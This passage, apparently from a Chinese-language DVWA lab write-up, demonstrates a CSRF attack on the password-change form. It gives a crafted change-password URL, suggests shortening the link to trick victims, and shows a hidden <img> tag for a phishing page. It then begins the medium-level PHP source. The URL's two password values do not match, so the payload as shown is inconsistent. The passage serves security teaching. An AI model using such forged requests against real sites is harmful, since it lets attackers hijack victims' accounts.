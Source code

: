 ```url
http://192.168.169.4/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=passwor&Change=Change#
```

当受害者点击链接之后，就会修改密码

![1556803624119](assets/1556803624119.png)

**2.构造短链接诱导用户点击**

利用工具，将上面构造的链接转换为短链接

**3.构造攻击界面**

钓鱼网站上诱导受害者点击，在点击的时候偷偷的完成攻击`csrf.html`

```html
<img src="http://192.168.169.4/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=passwor&Change=Change#" border="0" style="display:none;"/>
```

![1556804246583](assets/1556804246583.png)

### 3.2 中安全级别

```php
 <?php
            
    if (isset($_GET['Change'])) {
    
        // Checks the http referer header
        if ( eregi ( "127.0.0.1", $_SERVER['HTTP_REFERER'] ) ){
    
            // Turn requests into variables
            $pass_new = $_GET['password_new'];
            $pass_conf = $_GET['password_conf'];

            if ($pass_new == $pass_conf){
                $pass_new = mysql_real_escape_string($pass_new);
                $pass_new = md5($pass_new);

                $insert="UPDATE `users` SET password = '$pass_new' WHERE user = 'admin';";
                $result=mysql_query($insert) or die('<pre>' . mysql_error() . '</pre>' );
                        
```